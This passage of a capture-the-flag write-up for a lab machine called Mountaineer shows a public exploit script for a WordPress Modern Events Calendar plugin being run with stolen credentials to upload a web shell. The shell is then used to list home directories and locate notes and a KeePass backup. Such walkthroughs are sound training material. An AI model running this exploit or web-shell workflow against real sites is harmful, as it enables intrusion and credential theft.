 
```bash
:~/Mountaineer# python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p th3_tall3st_password_in_th3_world

  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____  
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___| 
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ \ 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/ 
                                
                * Wordpress Plugin Modern Events Calendar Lite RCE                                                        
                * @Hacker5preme
                    




[+] Authentication successfull !

[+] Shell Uploaded to: http://mountaineer.thm:80/wordpress//wp-content/uploads/shell.php
```


<h3>Shell</h3>

<p>

- navigated to <code>http://mountaineer.thm:80/wordpress//wp-content/uploads/shell.php</code></p>

<img width="1124" height="399" alt="image" src="https://github.com/user-attachments/assets/7da4058f-8358-48dc-87ed-ec05cad37325" />

<img width="1316" height="412" alt="image" src="https://github.com/user-attachments/assets/9a7050da-1638-42ae-bda0-435da6d4a87b" />


<img width="1186" height="297" alt="image" src="https://github.com/user-attachments/assets/38af0788-6e88-4f59-a7af-1abebb2fa259" />

<br>


```bash
www-data@mountaineer:/home$ ls -la
total 44
drwxr-xr-x 11 root    root    4096 Mar 16  2024 .
drwxr-xr-x 21 root    root    4096 Mar 16  2024 ..
drwxr-xr-x  2 root    root    4096 Apr  6  2024 annapurna
drwxr-xr-x  2 root    root    4096 Apr  6  2024 everest
drwxr-xr-x  3 k2      k2      4096 Apr  6  2024 k2
drwxr-xr-x  2 root    root    4096 Mar 18  2024 kangchenjunga
drwxr-xr-x  3 lhotse  lhotse  4096 Apr  6  2024 lhotse
drwxr-xr-x  2 root    root    4096 Apr  6  2024 makalu
drwxr-xr-x  2 root    root    4096 Apr  6  2024 manaslu
drwxr-xr-x  3 nanga   nanga   4096 Apr  6  2024 nanga
drwxr-x---  5 vagrant vagrant 4096 Apr  6  2024 vagrant
www-data@mountaineer:/home$ find . -type f 2>/dev/null
./kangchenjunga/.bash_history
./kangchenjunga/local.txt
./kangchenjunga/mynotes.txt
./nanga/ToDo.txt
./lhotse/Backup.kdbx
www-data@mountaineer:/home$ 
```
